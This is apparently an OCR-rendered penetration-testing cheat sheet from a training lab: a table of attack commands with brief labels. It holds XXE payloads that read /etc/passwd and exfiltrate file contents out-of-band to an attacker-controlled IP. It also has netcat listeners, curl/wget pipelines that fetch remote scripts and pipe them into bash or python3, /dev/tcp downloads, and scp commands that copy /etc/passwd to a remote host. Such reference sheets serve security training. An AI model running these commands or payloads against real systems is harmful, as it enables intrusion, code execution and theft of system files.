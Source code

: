 | ``python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`` | Run xsstrike on a url parameter |

| ``sudo nc -lvnp 80`` | Start netcat listener |

| ``sudo php -S 0.0.0.0:80`` | Start PHP server |

| ``<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`` | Define External Entity to a URL |

| ``<!ENTITY xxe SYSTEM "file:///etc/passwd">`` | Define External Entity to a file path |

| ``<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`` | Reading a file through a PHP error |

| ``<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`` | Reading a file OOB exfiltr |

| `----------------------------------------------------------------------------------------------------------` | --------------------------------------------------------- |

| ``wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`` | Download a File Using wget |

| ``curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`` | Download a File Using wget |

| ``curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh \| bash`` | Fileless Download with cURL |

| ``wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py \| python3`` | Fileless Download with wget |

| `` |  |

| `**Download with Bash (/dev/tcp)**` |  |

| ``exec 3<>/dev/tcp/10.10.10.32/80`` | Connect to the Target Webserver |

| ``echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`` | HTTP GET Request |

| ``cat <&3`` | Print the Response |

| `**SSH Download / Upload**` |  |

| ``scp plaintext@192.168.49.128:/root/myroot.txt .`` | Linux - Downloading Files Using SCP |

| ``scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/`` | File Upload using SCP |

| `**Web Upload**` |  |

| ``python3 -m pip install --user uploadserver`` | Pwnbox - Start Web Server |

| ``openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`` | Pwnbox - Create a Self-Signed Certificate |
